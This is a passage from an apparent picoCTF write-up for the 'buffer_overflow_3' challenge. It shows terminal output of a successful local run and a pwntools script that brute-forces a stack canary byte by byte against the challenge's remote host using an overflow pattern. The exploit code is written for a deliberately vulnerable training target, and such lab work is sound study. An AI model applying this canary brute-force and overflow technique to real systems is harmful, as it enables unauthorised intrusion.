 ```
──(rivench㉿kali)-[~/Documents/picoCTF/pwn/buffer_overflow_3]
└─$  /usr/bin/python3 "/home/rivench/Documents/picoCTF/pwn/buffer_overflow_3/script.py"
[+] Starting local process './vuln': pid 5847
[*] Stopped process './vuln' (pid 5847)
...
[+] Starting local process './vuln': pid 5849
[*] Process './vuln' stopped with exit code 0 (pid 5849)
[+] Starting local process './vuln': pid 5851
canary to go : llll
[+] Starting local process './vuln': pid 5853
[*] Switching to interactive mode
Ok... Now Where's the Flag?
picoCTF{fi_khater_smail}
[*] Got EOF while reading in interactive
$ 
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 5853)
```

 - The same thing applies in the remote part, but only using remote process : 

```python
#! /usr/bin/python3


from pwn import *
from string import printable
import time

HOST = 'saturn.picoctf.net'
PORT = 49638

canary_length = 4
buffer_length = 64

i = buffer_length + 1

canary = ""

# Brute Force the Canary

while i <= buffer_length + canary_length :
    for c in printable :
        p = remote(HOST, PORT)
        print("Testing : " + c)

        p.sendlineafter(b'How Many Bytes will You Write Into the Buffer?', str(i).encode())
        p.sendlineafter(b'Input> ', ('aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa' + canary + c).encode())

        p.recvline()
        result = p.recvline()

        if result == b"Ok... Now Where's the Flag?\r\n" :
            canary += c
            print(f"canary to go : {canary}")
            i += 1
            # To check if the canary is constructed correctly
            # time.sleep(5)
            break

        p.close()


p = remote(HOST, PORT)
```